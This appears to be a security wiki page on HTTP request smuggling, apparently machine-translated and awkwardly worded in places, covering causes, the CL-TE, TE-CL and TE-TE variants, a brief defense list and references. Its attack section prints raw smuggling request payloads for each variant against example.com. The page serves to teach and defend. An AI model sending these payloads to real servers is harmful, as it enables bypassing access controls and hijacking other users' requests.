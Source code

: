 HTTP request smuggling
========================================

Introduction
----------------------------------------
HTTP request smuggling is a technology that interferes with the way websites handle HTTP request sequences. It was first published in 2005 in an article <https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf>`_ propose.

Causes
----------------------------------------
Request smuggling mostly occurs when the front-end server and back-end server have inconsistent understanding of the data passed in by the client. This is because the HTTP specification provides two different ways to specify the end position of the request, namely the ``Content-Length`` and ``Transfer-Encoding`` headers.

Classification
----------------------------------------
- CLTE: The front-end server uses the ``Content-Length`` header, and the back-end server uses the ``Transfer-Encoding`` header
- TECL: The front-end server uses the ``Transfer-Encoding`` header, and the back-end server uses the ``Content-Length`` header.
- TETE: Both the front-end and back-end servers support the ``Transfer-Encoding`` header, but one of the servers can be induced to not process it in some way.

attack
----------------------------------------

GET request with CL not 0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
The current server allows GET requests to carry the request body, while the backend server does not allow GET requests to carry the request body. It will directly ignore the ``Content-Length`` header in the GET request and do not process it. For example, the following example:

::

GET / HTTP/1.1
Host: example.com
Content-Length: 44

GET /secret HTTP/1.1
Host: example.com


The front-end server handled ``Content-Length``, while the back-end server did not handle ``Content-Length``. Based on the pipeline mechanism, it believes that these are two independent requests, which caused the vulnerability to occur.

CL-CL
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
According to RFC 7230, when the server receives two ``Content-Length`` requests, and the values of the two are different, an error of 400 is required, but some servers do not strictly implement this specification. In this case, when the current backend takes different ``Content-Length`` values, a vulnerability will occur. For example:

::

POST / HTTP/1.1
Host: example.com
Content-Length: 8
Content-Length: 7

12345
a

In this example a will be taken to the next request and becomes ``aGET / HTTP/1.1
``.

CL-TE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
CL-TE refers to the front-end server processing the request header of ``Content-Length``, while the back-end server complies with the provisions of RFC2616, ignores ``Content-Length`` and handles ``Transfer-Encoding``. For example:

::

POST / HTTP/1.1
Host: example.com
...
Connection: keep-alive
Content-Length: 6
Transfer-Encoding: chunked

0

a

In this example, a will also be taken to the next request and becomes ``aGET / HTTP/1.1
``.

TE-CL
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
TE-CL refers to the front-end server processing the ``Transfer-Encoding`` request header, while the back-end server processing the ``Content-Length`` request header. For example:

::

POST / HTTP/1.1
Host: example.com
...
Content-Length: 4
Transfer-Encoding: chunked

12
aPOST / HTTP/1.1

0


You're
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
TE-TE means that both front and backend servers process the ``Transfer-Encoding`` request header, but it performs differently in fault tolerance. For example, some servers may process the ``Transfer-encoding``, tests such as:

::

POST / HTTP/1.1
Host: example.com
...
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5C
aPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


defense
----------------------------------------
- Disable backend connection reuse
- Make sure all servers in the connection have the same configuration
- Reject ambiguity requests

Reference link
----------------------------------------

RFC
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `RFC 2616 Hypertext Transfer Protocol -- HTTP/1.1 <https://tools.ietf.org/html/rfc2616>`_
- `RFC 7230 Hypertext Transfer Protocol (HTTP/1.1): Message Syntax and Routing -- HTTP/1.1 <https://tools.ietf.org/html/rfc7230>`_

Blog / Whitepaper
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `HTTP Request Smuggling by chaiml <https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf>`_
- `HTTP request smuggling by portswigger <https://portswigger.net/web-security/request-smuggling>`_
- `HTTP request smuggling from one question to protocol-level attacks <https://xz.aliyun.com/t/6654>`_
- `HTTP Request Smuggling in 2020 <http://i.blackhat.com/USA-20/Wednesday/us-20-Klein-HTTP-Request-Smuggling-In-2020-New-Variants-New-Defenses-And-New-Challenges.pdf>`_
- `h2c Smuggling: Request Smuggling Via HTTP/2 Cleartext (h2c) <https://labs.bishopfox.com/tech-blog/h2c-smuggling-request-smuggling-via-http/2-cleartext-h2c>`_
